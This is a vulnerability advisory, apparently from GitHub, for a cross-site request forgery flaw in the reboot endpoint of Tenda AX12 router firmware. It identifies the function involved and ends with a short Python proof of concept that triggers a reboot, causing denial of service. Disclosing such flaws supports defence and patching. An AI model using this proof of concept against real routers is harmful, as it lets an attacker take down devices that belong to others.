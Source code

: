 Affect device: Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SysToolReboot` page which influences the lastest version of Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

The vulnerability exists in the sub_42E328 function.

![1](1.png)

It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

# POC

```python
import requests

url = "http://192.168.158.149/goform/SysToolReboot"

r = requests.get(url)
#r = requests.post(url)     can also do
print(r.content)
```

